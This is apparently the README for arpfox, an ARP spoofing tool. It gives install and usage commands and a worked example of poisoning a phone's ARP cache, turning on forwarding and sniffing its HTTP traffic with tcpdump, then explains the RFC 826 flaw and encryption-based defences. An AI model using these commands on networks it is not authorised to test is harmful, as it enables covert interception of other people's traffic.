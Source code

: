 # arpfox

[![Build Status](https://travis-ci.org/malfunkt/arpfox.svg?branch=master)](https://travis-ci.org/malfunkt/arpfox)

`arpfox` is an [arpspoof](http://linux.die.net/man/8/arpspoof) alternative
written in Go that injects specially crafted [ARP
packets](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)
into a LAN.

A security researcher may run `arpfox` against any machine on the LAN (even the
router) to alter its ARP cache table and divert network packets to another
host, this is an [ancient
technique](http://insecure.org/sploits/arp.games.html) known as [ARP
spoofing](https://en.wikipedia.org/wiki/ARP_spoofing).

## Get `arpfox`

You can install arpfox to `/usr/local/bin` with the following command (requires
admin privileges):

```
curl -sL 'https://raw.githubusercontent.com/malfunkt/arpfox/master/install.sh' | sh
```

You can also grab the latest release from our [releases
page](https://github.com/malfunkt/arpfox/releases) and install it on a
different location.

## Build it yourself

In order to build `arpfox` from source you'll need Go, a C compiler and
libpcap's development files:

```
# Fedora
sudo dnf install -y libpcap-devel

# Arch Linux
sudo yay -S arpfox

# Debian/Ubuntu
sudo apt-get install -y libpcap-dev

# OSX
brew install libpcap

# FreeBSD
sudo pkg install libpcap

# Windows
# Install https://www.winpcap.org/
```

After installing libpcap, use `go get` to build and install `arpfox`:

```
go get github.com/malfunkt/arpfox
arpfox -h
```

## Running `arpfox`

```
arpfox -i [interface] -t [target] [host]
```

### Interface (-i)

Interface name (e.g.: `eth0`, `en0`, `wlan0`, etc).

### Target specification (-t)

`arpfox` takes targets in the same format as `nmap` does. The following are all
valid target specifications:

* `10.0.0.1`
* `10.0.0.0/24`
* `10.0.0.*`
* `10.0.0.1-10`
* `10.0.0.1, 10.0.0.5-10, 192.168.1.*, 192.168.10.0/24`

### Host

The host parameter defines the host you want to pose as, for instance, if you
use the LAN router's IP address, the targeted machine will stop sending network
packets to the router and will send them to you instead.

### Root privileges

Depending on your OS, you may require root privileges to run `arpfox`

```
arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
2016/09/05 20:06:12 wlan0: You don't have permission to capture on that device ((cannot open device) /dev/bpf: Permission denied)

sudo arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
...
```

## A practical example

Alice is a security researcher, and she wants to intercept and record all
traffic between her own phone and the LAN router.

Her machine is already on the same LAN as the phone, and she knows the IP
addresses of both the phone and of the router.

```
Phone:  10.0.0.101
Router: 10.0.0.1
```

Alice will attempt to make her laptop pose as the router in order for the phone
to send all its traffic to the laptop.

If she succeeds, the phone will start sending traffic marked for the router
(`10.0.0.1`) to Alice's machine, which (by default) will ignore the packets
because they have a different destination, in order to instruct her machine to
forward the packets to the legitimate destination instrad of dropping them
Alice does something like:

```
# OSX
sudo sysctl net.inet.ip.forwarding=1

# FreeBSD
sudo sysctl -w net.inet.ip.forwarding=1

# Linux
sudo sysctl -w net.ipv4.ip_forward=1

# Windows (on PowerShell)
Get-NetIPInterface | select ifIndex,InterfaceAlias,AddressFamily,ConnectionState,Forwarding | Sort-Object -Property IfIndex | Format-Table
# (get the interface index)
Set-NetIPInterface -ifindex [interface index] -Forwarding Enabled
```

Besides just forwarding packets between the target and the router, Alice also
wants to eavesdrop the traffic between the target and the router:

```
tcpdump -i en0 -A -n "src host 10.0.0.101 and (dst port 80 or dst port 443)"
```

At this point Alice hasn't started `arpfox` yet and the phone's ARP table still
looks like this:

```
# 10.0.0.1's legitimate MAC address on the phone.
? (10.0.0.1) at 11:22:33:44:55:66 on wlan0 expires in 857 seconds [ethernet]
```

Now she's ready to use `arpfox`:

```
# arpfox -i [network interface] -t [target] [host]
arpfox -i en0 -t 10.0.0.101 10.0.0.1
```

`-i en0` tells `arpfox` to inject packets via the `en0` network interface, `-t
10.0.0.101 10.0.0.1` tells `arpfox` to send unsolicited ARP replies to the
phone (`10.0.0.101`) posing as the router (`10.0.0.1`).

After a few seconds, the phone's ARP table will get altered and the phone will
think Alice's machine is the router:

```
# 10.0.0.1's MAC address was changed on the phone.
? (10.0.0.1) at 11:22:de:ad:be:ef on wlan0 expires in 1193 seconds [ethernet]
```

Finally, she takes the phone and goes to `example.com`, `tcpdump` starts
showing traffic:

```
...
GET / HTTP/1.1
Host: example.org
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1 (KHTML, like Gecko) CriOS/52.0.2743.84 Mobile/13G36 Safari/601.1.46
Accept-Language: en-us
Cache-Control: max-age=0
Connection: keep-alive
...
```

## Why does this happen?

[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) is the
protocol most computers use to translate a [MAC
address](https://en.wikipedia.org/wiki/MAC_address) into an [IP address
](https://en.wikipedia.org/wiki/IP_address). The original proposal is described
in [RFC826](https://tools.ietf.org/html/rfc826).

The part that is flawed is described in the "Packet Reception" section:

> Notice that the <protocol type, sender protocol address, sender
> hardware address> triplet is merged into the table before the
> opcode is looked at.  This is on the assumption that communcation
> is bidirectional; if A has some reason to talk to B, then B will
> probably have some reason to talk to A.  Notice also that if an
> entry already exists for the <protocol type, sender protocol
> address> pair, then the new hardware address supersedes the old
> one.  Related Issues gives some motivation for this.

The opcode they're talking about is what tells the receiver if the packet is a
request or a reply, except that nothing verifies that a reply is associated
with a request nor that a request was made in the first place.

It only takes an unsolicited ARP packet of type reply to make a machine change
that entry into its internal ARP table, this includes adding new addreses and
replacing old ones.

## How can I protect against this?

There are [some programs](https://en.wikipedia.org/wiki/ARP_spoofing#Defense)
that can help you against ARP spoofing. Sometimes programs like these may be
inconvenient because we usually roam over different networks all the time and
these programs require us to hack stuff before actually starting being
productive. Keeping an static ARP table is simply not practical enough for most
users.

One thing you can do, though, is assuming things like these could happen and
try to encrypt your communications, specially on untrusted networks where any
node, even the router, can be actively recording traffic without your consent.
While this doesn't prevent attackers from keeping records on your
communications, it does prevent them from knowing the actual contents of it.

You don't have to use a VPN to stay secure, you can build a proxy with SSH and
configure your programs to use it:

```
ssh -D 9999 user@myownserver.org
```

A more advanced example could be found
[here](https://www.digitalocean.com/community/tutorials/how-to-route-web-traffic-securely-without-a-vpn-using-a-socks-tunnel).

## A glimpse of our future

You know what is probably not going to help solving this problem in the coming
years? Millions of already deployed IoT devices that cannot update themselves.

![c4jt321](https://cloud.githubusercontent.com/assets/385670/19027614/6320583e-88f7-11e6-95c4-3bf785b6082c.png)
